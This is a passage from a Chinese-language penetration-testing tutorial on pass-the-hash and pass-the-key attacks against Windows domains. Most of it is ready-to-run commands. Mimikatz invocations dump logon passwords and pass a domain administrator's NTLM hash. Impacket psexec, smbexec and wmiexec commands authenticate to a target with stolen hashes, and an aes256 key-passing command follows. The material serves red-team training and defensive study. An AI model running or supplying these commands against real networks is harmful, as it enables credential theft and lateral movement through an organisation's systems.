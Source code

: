 `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit`

② 利用抓取的域管理员的NTLM hash进行哈希传递

`mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:uf9n1x.com /ntlm:93b95aef15f4d50fab96ffc44a2f326a" exit`

### [**利用impacket进行PTH**](https://tttang.com/archive/1890/#toc_impacketpth)

Impacket项目中具有远程执行功能的几个脚本几乎都可以进行哈希传递攻击，常见的有：

`psexec.py      # 类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom） smbexec.py     # 与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。我们的实现更进一步，                    #实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。 python3 smbexec.py -hashes :3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131                 #-hashes 指定用户完整的哈希，如果LM哈希被废弃，就将其指定为0或者空   atexec.py      # 此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。  wmiexec.py     # 需要开放139和445端口，通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。  python wmiexec.py -hashes 00000000000000000000000000000:3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131  dcomexec.py    # 类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持               MMC20.Application，ShellWindows和ShellBrowserWindow对象。`

用法：

`# 普通用法 python3 xxx.py domain/user:password@ip # 哈希传递 python3 xxx.py domain/user@ip -hashes :93b95aef15f4d50fab96ffc44a2f326a`

## [PTK aes256 传递](https://tttang.com/archive/1890/#toc_ptk-aes256)

打补丁后的工作组及域连接：

`sekurlsa::pth /user:webserver-2008 /domain:uf9n1x /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b`